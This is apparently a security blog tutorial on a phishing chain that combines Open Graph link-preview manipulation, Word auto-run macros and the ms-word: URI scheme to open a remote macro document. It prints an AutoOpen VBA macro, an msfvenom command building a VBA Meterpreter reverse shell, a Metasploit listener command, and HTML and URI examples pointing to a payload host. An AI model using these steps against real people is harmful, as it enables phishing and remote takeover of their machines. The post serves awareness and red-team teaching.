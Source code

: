 ```yaml
---
title: Abusing OG Protocol With Macros
date: 2025-03-06 00:00:00 +0200
categories:
  - phishing
tags:
  - phishing
media_subpath: /assets/images/og
---
```

**Disclaimer:**

This post is for **educational and informational purposes only**. It is intended to raise awareness about how certain technologies work and should **not** be used for any malicious or unethical activities. Misusing this information may violate laws and terms of service, leading to serious legal consequences. The author **does not** encourage or condone any illegal actions. **Use this knowledge responsibly.**
# Introduction
Hello there! I’m Mohamed Aboelnasr, and in this article, we’ll dive into how adversaries can weaponize the **Open Graph (OG) protocol** and **macros inside Word files** to craft **effective phishing attacks** and achieve initial access. By combining these two techniques, attackers can enhance social engineering tactics and bypass common security measures. 

---
### What Are Macros in Microsoft Word?
Macros in Microsoft Word are **automated sequences of commands** written in **Visual Basic for Applications (VBA)** that perform repetitive tasks. They allow users to automate workflows, but they are also **a common attack vector** exploited by adversaries for malicious purposes.
#### How?
1. **Delivery** – The attacker sends a phishing email with a **Word document attachment** (e.g., "Invoice.docm" or "Urgent_Report.docm").
2. **Social Engineering** – The document tricks the user into **enabling macros** by displaying fake warnings (e.g., "This document is protected, enable macros to view content").
3. **Execution** – Once macros are enabled, the VBA script:
    - **Downloads and executes malware** (like a RAT, ransomware, or keylogger).
    - **Runs PowerShell or CMD commands** to create a backdoor.
    - **Modifies system settings** to establish persistence.
4. **Compromise** – The attacker gains **initial access** to the system, which can lead to full compromise.  

in the following image is how macros are added to a word file 
![Image](https://github.com/user-attachments/assets/46412b21-d2ce-403c-8c94-eb1da48ec446)

There are **auto-execution macros**, meaning they run or executed **automatically** when a Word document is opened, e.g., `AutoOpen()` and `Document_Open()` auto macros.
```vba
Sub AutoOpen()
    Dim str As String
    str = "calc.exe"
    Shell str, vbNormalFocus
End Sub
```

> _For the sake of this demo, we will simply open `calc.exe` to demonstrate how macros work. This harmless example illustrate how attackers can use VBA to execute commands on a victim's machine._

![Image](https://github.com/user-attachments/assets/6a1c995a-decd-4c0e-9138-dea7a882919f)
now anyone opens this document and enables the macros the calculator will open.
![Image](https://github.com/user-attachments/assets/c50cf3c5-5a18-4384-8b35-95bf1931e7d2)

---
### What Are Open Graph (OG):
Open Graph (OG) is a metadata protocol introduced by Facebook that allows web pages to control how their content appears when shared on social media platforms. By using OG meta tags, websites can define the title, description, image, and URL displayed in link previews, making shared links more visually appealing and engaging. While OG is designed for legitimate content sharing, adversaries can manipulate it to craft deceptive previews that enhance phishing and social engineering attacks.
In the following image, you can see how a shared post or link might appear on social media:

![Image](https://github.com/user-attachments/assets/8324182a-2fee-4d35-9a99-ccf9effce8e3)

This preview is controlled by **Open Graph (OG) meta tags** embedded within an HTML file. Below is an example of OG metadata that defines how this link is displayed when shared:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta property="og:title" content="Unveiling Hidden Secrets">
    <meta property="og:description" content="A deep dive into deceptive techniques used in phishing and social engineering attacks.">
    <meta property="og:image" content="https://example.com/dark-secrets.jpg">
    <meta property="og:url" content="https://example.com/phishing-techniques">
    <title>Unveiling Hidden Secrets</title>
</head>
<body>
    <h1>How Attackers Manipulate Open Graph</h1>
    <p>Explore how adversaries exploit OG metadata to craft deceptive link previews.</p>
</body>
</html>
```

These **OG meta tags** tell platforms like **Facebook, Twitter, and LinkedIn** how to display the **title, description, image, and URL** when the page is shared. **Attackers often abuse this to create misleading previews** that look legitimate but lead to malicious websites. 

---
### **How Do Apps Like Zoom or Teams Open from a Browser Click?**
Have you ever clicked a meeting link and suddenly **Zoom, Microsoft Teams, or another app pops up**—seamlessly opening the meeting? This isn't magic; it's made possible by **Custom URI Schemes**.
let's take a step back and talk about a custom URI Scheme
### **What Is a Custom URI Scheme?**
A **Custom URI Scheme** allows installed applications to define their own **protocol handlers**, enabling browsers to interact directly with them. Instead of just opening a webpage, a **custom URL can launch an app** and pass specific instructions.
#### **Examples of Custom URI Schemes :**

- **Zoom:** `zoommtg://zoom.us/join?confno=123456789` → Opens the Zoom app and joins a meeting.
- **Microsoft Teams:** `msteams://teams.microsoft.com/l/meetup-join/...` → Launches Teams and joins a meeting.

#### **How Custom URI Schemes Registered in Windows :**
i created a custom uri for opening the notepad just for demonstration, and it's not hard you just need to register a custom uri in the registry editor as the following
1. Open **Registry Editor** (`regedit`).
2. create a new key name it notepad and Navigate to it and add a new string named 'URL Protocol' with empty value:
    ```
    HKEY_CLASSES_ROOT\notepad
    ```
    
3. Create a **new key** named `shell\open\command`.
4. Set the **default value** of `command` to:
    
    ```
    C:\Windows\System32\notepad.exe
    ```
    ![Image](https://github.com/user-attachments/assets/7bcc1a58-ac09-4fdd-a1f3-217d870b0755)
5. Now, typing `notepad://` in a browser or Run dialog `Win+R` will open Notepad.
![Image](https://github.com/user-attachments/assets/94fa6896-e5a0-42b5-b84b-ae401f39c29d)

---
### **How Attackers Exploit This Mechanism**

While these schemes are designed for convenience, **attackers can take advantage of them** to launch **malicious actions with minimal user interaction**. A well-crafted phishing attack might:
1. **Use Open Graph (OG) manipulation** to create a fake, enticing preview of a "secure document" or "urgent meeting."
2. **Embed a malicious Custom URI link** (e.g., `ms-word:ofe|u|https://attacker.com/malicious.docm`).
3. **When clicked, the link directly opens MS Word, Excel, or another app**, automatically retrieving a remote **macro-enabled** document.
4. **If macros are enabled, the malicious code executes**, leading to initial compromise.

And that is what we are going to do :"

---
first we will generate a vba reverse shell code using msfvenom
```sh
msfvenom -x x64 -p windows/x64/meterpreter/reverse_tcp lport=443 lhost=192.168.1.8 -f vba |xsel --clipboard

```
![Image](https://github.com/user-attachments/assets/c78859c6-2b9d-41bd-a10e-583fd9166066)

and start the listener using the multi/handler module in metasploit
```sh
msfconsole -x "use multi/handler;set lhost 192.168.1.8;set lport 443;set payload windows/x64/meterpreter/reverse_tcp;run"
```
next make a word document file with macros that will contain the shellcode generated from msfvenom
![Image](https://github.com/user-attachments/assets/bb8de95f-ca9a-4a27-83e7-5d9c7fdff329)

After setting up the malicious document, the attacker hosts or embeds it on a website. Now, all they need is for someone to **click the link**, which will open the document **directly in Microsoft Word**. If the victim enables macros, the attack is successful—simple and effective.
![Image](https://github.com/user-attachments/assets/d1cd2f07-ae69-4798-9669-5c4f8b6348d7)
```html
<a href="ms-word:ofe|u|http://192.168.1.8:8080/mymacro.doc"class="btn quote" >
Seek the Truth
</a>
```
- **`ms-word:`** → The **custom URI scheme** registered by Microsoft Word.
- **`ofe|u|`** → Special flags that tell Word how to handle the document:
    - **`ofe`** → Open in **editing mode**.
    - **`u`** → Specifies that the file is located at a URL.
- **`http://192.168.1.8:8080/mymacro.doc`** → The actual **document URL** to be opened.
When this link is executed (e.g., pasted in a browser’s address bar or run via `Win + R`), Microsoft Word will:
1. **Launch Word (if not already open).**
2. **Fetch the document** from the specified URL.
3. **Open it directly** in **editable mode**.
and just by convincing the victim to just visit the site and clicks the button
![Image](https://github.com/user-attachments/assets/db3e6002-d05d-4566-a5bb-b78f1709c11d)
he will be prompted to open Microsoft Word
![Image](https://github.com/user-attachments/assets/55ef5ea1-0924-4410-8ee0-4bc17ded66b8)
the word will start downloading the file and opens it
![Image](https://github.com/user-attachments/assets/6becc8e7-17ba-435a-b91d-604e3d4beb9e)

and if the victim enables editing and macros the malicious code will execute and the attacker will get a reverse shell connection back to his C2 or listener.
![Image](https://github.com/user-attachments/assets/937bd8c5-71f7-498f-89a5-aede10ff4bfc)

And that’s it. I hope no one gets tricked by this. and Remember, this is for educational purposes only— please please do not use it maliciously.  
stay safe people..
 
 ---
### References

- [Microsoft Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes#13-uri-schema)
- [Open Graph Protocol](https://ogp.me/)
- [What is Open Graph and How Can I Use It?](https://www.freecodecamp.org/news/what-is-open-graph-and-how-can-i-use-it-for-my-website/)